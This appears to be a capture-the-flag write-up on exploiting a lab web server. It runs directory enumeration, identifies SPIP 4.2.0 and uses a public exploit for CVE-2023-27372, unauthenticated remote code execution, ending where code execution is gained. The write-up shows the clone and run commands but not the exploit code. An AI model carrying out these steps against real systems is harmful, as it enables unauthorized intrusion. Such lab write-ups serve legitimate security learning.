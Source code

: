 ```
404      GET        9l       31w      273c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
403      GET        9l       28w      276c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET       32l      224w    17917c http://10.10.16.40/images/ads.jpg
200      GET      354l      770w     5959c http://10.10.16.40/style.css
200      GET      237l     1368w   110318c http://10.10.16.40/images/image_01.jpg
200      GET      142l      610w    69796c http://10.10.16.40/images/image_02.jpg
200      GET      150l      766w     8686c http://10.10.16.40/
301      GET        9l       28w      311c http://10.10.16.40/images => http://10.10.16.40/images/
301      GET        9l       28w      309c http://10.10.16.40/spip => http://10.10.16.40/spip/
```

We find /spip path, let’s check it out.

![image](https://github.com/user-attachments/assets/79dc9fad-78bc-473c-b6fe-5936924f44a0)



Nothing new here, I checked Wappalyzer and found the version of spip running is 4.2.0.



![image](https://github.com/user-attachments/assets/6d83eac2-5997-4116-8602-7605e1d5e8a6)



Searching on google we find this is vulnerable to Unauthenticated Remote Code Execution https://nvd.nist.gov/vuln/detail/CVE-2023-27372


I git cloned the project to my local machine using the below command


```
git clone https://github.com/Chocapikk/CVE-2023-27372.git             
Cloning into 'CVE-2023-27372'...                                                                                                    
remote: Enumerating objects: 25, done.                                                                                              
remote: Counting objects: 100% (14/14), done.                                                                                       
remote: Compressing objects: 100% (12/12), done.                                                                                    
remote: Total 25 (delta 4), reused 7 (delta 2), pack-reused 11                                                                      
Receiving objects: 100% (25/25), 14.20 KiB | 156.00 KiB/s, done.                                                                    
Resolving deltas: 100% (6/6), done.
```


Next i installed all the required libraries using the following command


```pip install -r requirements.txt```


![image](https://github.com/user-attachments/assets/e4f75854-0278-4aac-a7bf-e9079d248a9d)


To run the tool i used the following command



```
python CVE-2023-27372.py -u http://10.10.163.99/spip/ -v -o report.txt
```

Looking at the screenshot below we get remote code execution on the server

```